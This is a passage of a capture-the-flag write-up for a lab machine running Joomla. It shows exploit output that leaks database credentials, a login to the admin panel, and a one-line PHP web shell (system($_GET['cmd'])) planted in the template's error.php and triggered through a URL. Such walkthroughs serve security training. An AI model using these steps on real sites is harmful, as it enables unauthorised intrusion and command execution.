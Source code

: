 ```terminal
Captcha: 0                                                                                                                                                                                                                                  
Access: 1                                                                                                                                                                                                                                   
Debug status: false                                                                                                                                                                                                                         
                                                                                                                                                                                                                                            
Database info                                                                                                                                                                                                                               
DB type: mysqli                                                                                                       
DB host: localhost                                                                                                    
DB user: lewis                                                                                                        
DB password: P4ntherg0t1n5r3c0n##                                                                                     
DB name: joomla                                                                                                       
DB prefix: sd4fg_                                                                                                     
DB encryption 0     
```

The exploit returned a username and a password.

Let's see if we can login to `Joomla`.

![login](5.png)

## **Foothold**

We managed to login successfully to `Joomla`, now it's time for a reverse shell.

We go to `System` -> `Site Templates` and select `Cassiopeia` template.

![template](6.png)

Now we choose `error.php` file and add the following php line that will allow us to execute commands on the system.

```php
system ($_GET['cmd']);
```

![phpshell](7.png)

We click save and go to `http://dev.devvortex.htb/templates/cassiopeia/error.php/error.php?cmd=id` to run commands.
